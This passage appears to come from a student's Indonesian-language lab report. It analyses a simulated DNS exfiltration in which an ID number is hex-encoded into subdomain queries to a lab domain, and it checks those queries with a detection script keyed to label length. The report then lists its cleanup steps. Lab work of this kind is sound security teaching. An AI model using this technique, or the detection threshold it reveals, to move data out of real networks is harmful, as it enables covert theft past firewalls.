




**Analisis:** NIM saya (`24552011143`) diubah menjadi representasi hex (`3234353532303131313433`) lalu disisipkan sebagai **label subdomain** pada query DNS ke `k8.exfil.lab` — inilah inti teknik **DNS exfiltration**: data yang ingin dicuri/dikeluarkan disamarkan sebagai bagian dari nama domain yang di-query, sehingga bisa menembus firewall yang biasanya mengizinkan lalu lintas DNS (port 53) secara bebas. Log `dnsmasq` membuktikan query hex tersebut benar-benar diterima oleh server DNS dari `172.20.0.2` (attacker), dan hasil analisis `analisis_dns.py` mengonfirmasi domain induk `exfil.lab` menerima 1 query. Kolom "Query mencurigakan" pada skrip tetap kosong karena skrip hanya menandai label hex yang **lebih panjang dari 30 karakter** (`BATAS_PANJANG_LABEL = 30`), sedangkan label NIM saya hanya 22 karakter — jadi kosongnya bagian ini **bukan error**, melainkan karena ambang batas deteksi skrip memang tidak terlampaui. Terakhir, label hex berhasil di-*decode* kembali menjadi `24552011143`, membuktikan data NIM dapat direkonstruksi utuh dari query DNS yang tercatat di log — inilah yang menjadi bukti keberhasilan simulasi exfiltration sekaligus deteksinya.

---

## Pembersihan Resource

Seluruh container, network, dan volume yang dibuat untuk setiap tugas (Tugas 1, 3, 6, 7) sudah dihapus menggunakan `docker compose down -v` atau `docker rm`/`docker network rm` di akhir masing-masing sesi, sesuai checklist cleanup pada panduan.

- [x] Semua 7 Tugas dikerjakan
- [x] Output terminal ada di atas
- [x] NIM & Kasus tercantum
- [x] Container, network, dan volume praktikum sudah dihapus
